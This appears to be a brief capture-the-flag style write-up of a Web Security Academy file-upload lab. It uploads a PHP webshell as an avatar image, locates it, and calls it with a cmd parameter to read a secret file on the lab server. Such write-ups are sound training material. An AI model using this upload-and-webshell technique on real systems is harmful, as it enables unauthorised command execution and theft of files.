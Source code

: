 Uploading file here:
![image](https://github.com/user-attachments/assets/ad131a65-335d-43ff-b9c7-41d34e620628)

This file: `/usr/share/webshells/php/simple-backdoor.php`

Finding path to file:
![image](https://github.com/user-attachments/assets/7de5f9a3-73da-4904-a6de-6add6ead4ce0)

path to webshell: `/files/avatars/simple-backdoor.php`
Crafting URL: 
`https://0a40005a03cf2da48023218d00ef00bc.web-security-academy.net/files/avatars/simple-backdoor.php`

Using webshell: `https://0a40005a03cf2da48023218d00ef00bc.web-security-academy.net/files/avatars/simple-backdoor.php?cmd=cat+/home/carlos/secret`


